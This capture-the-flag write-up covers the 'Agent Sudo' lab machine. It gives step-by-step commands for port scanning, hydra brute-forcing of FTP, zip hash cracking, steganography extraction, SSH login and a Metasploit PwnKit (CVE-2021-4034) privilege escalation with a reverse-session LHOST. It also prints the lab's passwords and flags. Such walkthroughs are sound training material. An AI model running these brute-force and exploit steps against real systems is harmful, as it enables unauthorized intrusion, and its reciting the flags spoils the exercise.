# Agent Sudo

--------------------------------------------------------------------

**TOOLS USED**: nmap, hydra, binwalk, john, steghide, linpeas, metasploit

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.207.89

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

--script SCRIPT: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap --script vuln -sV -p- -oN nmap.txt 10.10.207.89
```



**EXPOSED PORT (SERVICE)**:<br>
  21 (ftp vsftpd 3.0.3),<br>
  22 (ssh OpenSSH 7.6p1),<br>
  80 (http Apache httpd 2.4.29),<br>
  8797,<br>
  9649,<br>
  39873,<br>
  42206

### 2. ACCESS HIDDEN PAGES



Use User-Agent Switcher plugin to change user agent to R<br>
https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/





Try all other letters in alphabet

Codename: C



**USERNAME**: chris

chris has weak password so we can try to brute force his ftp login

### 3. BRUTE FORCE FTP

```
hydra -l "chris" -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.207.89
```



**PASSWORD**: crystal

```
ftp chris@10.10.207.89
less To_agentJ.txt
```



```
get cute-alien.jpg
get cutie.png
```

### 4. CRACK ZIP HASH

```
binwalk cute-alien.jpg
binwalk cutie.png
```



file hidden in cutie.png

```
binwalk cutie.png -e
```



Convert zip to hash and then crack
```
zip2john 8702.zip > hash
john hash
```


**PASSWORD**: alien

Open To_agentR.txt in zip file



Use Cyber Chef to auto detect encoding algorithm<br>
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UVhKbFlUVXg



QXJlYTUx = Area51

### 5. EXTRACT STEGANOGRAPHY DATA

```
steghide extract -sf cute-alien.jpg
```



Agent J = James
**PASSWORD**: hackerrules!

```
ssh james@10.10.207.89
```



**USER FLAG**: b03d975e8c92a7c04146cfa7a5a313c7

### 6. PRIVILEGE ESCALATION

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh james@10.10.207.89:~/linpeas.sh
chmod +x linpeas.sh
./linpeas
```



**VULNERABLE**: CVE-2021-4034, CVE-2022-2588 (Potential)

Exploit vulnerability
```
msfconsole
auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.10.207.89
set USERNAME james
set PASSWORD hackerrules!
exploit
search CVE-2021-4034
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set LHOST 10.6.40.234
set SESSION 1
exploit
```



Agent R = DesKel

**ROOT FLAG**: b53a02f55b57d4439e3341834d70c062